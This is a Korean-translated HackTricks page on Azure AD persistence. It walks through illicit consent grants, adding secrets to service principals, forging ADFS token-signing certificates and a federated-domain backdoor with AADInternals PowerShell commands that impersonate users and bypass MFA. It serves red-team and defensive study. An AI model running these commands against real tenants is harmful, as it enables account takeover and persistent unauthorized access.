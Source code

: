 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

기본적으로, 모든 사용자는 Azure AD에 애플리케이션을 등록할 수 있습니다. 따라서 높은 영향력의 권한이 필요한 애플리케이션(대상 테넌트 전용)을 관리자의 동의와 함께 등록할 수 있습니다(관리자라면 승인할 수 있음) - 예를 들어 사용자를 대신하여 메일을 보내거나 역할 관리를 하는 등의 작업입니다. 이는 성공할 경우 매우 **결실을 맺을** **피싱 공격**을 **실행**할 수 있게 해줍니다.

게다가, 사용자가 해당 애플리케이션을 수락하여 접근을 유지할 수도 있습니다.

### Applications and Service Principals

Application Administrator, GA 또는 microsoft.directory/applications/credentials/update 권한이 있는 사용자 지정 역할의 권한으로, 기존 애플리케이션에 자격 증명(비밀 또는 인증서)을 추가할 수 있습니다.

**높은 권한을 가진 애플리케이션을 타겟팅**하거나 **높은 권한을 가진 새로운 애플리케이션을 추가**하는 것이 가능합니다.

애플리케이션에 추가할 흥미로운 역할은 **특권 인증 관리자 역할**로, 이는 전역 관리자의 **비밀번호를 재설정**할 수 있게 해줍니다.

이 기술은 또한 **MFA를 우회**할 수 있게 해줍니다.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 인증서 기반 인증을 위한

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

**DA 권한**으로 온프레미스 AD에서 **새로운 Token signing** 및 **Token Decrypt certificates**를 생성하고 가져올 수 있습니다. 이 인증서는 매우 긴 유효 기간을 가집니다. 이를 통해 우리가 아는 ImuutableID를 가진 **모든 사용자로 로그인**할 수 있습니다.

**ADFS 서버에서 DA로** 아래 명령어를 실행하여 새로운 인증서를 생성하고 (기본 비밀번호 'AADInternals'), 이를 ADFS에 추가하고, 자동 롤오버를 비활성화한 후 서비스를 재시작합니다:
```powershell
New-AADIntADFSSelfSignedCertificates
```
그런 다음 Azure AD로 인증서 정보를 업데이트합니다:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA 권한이 있는 테넌트에서 **새 도메인 추가** (검증되어야 함), 인증 유형을 Federated로 구성하고 도메인을 **특정 인증서** (아래 명령의 any.sts) 및 발급자에 대해 **신뢰하도록 구성**할 수 있습니다:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
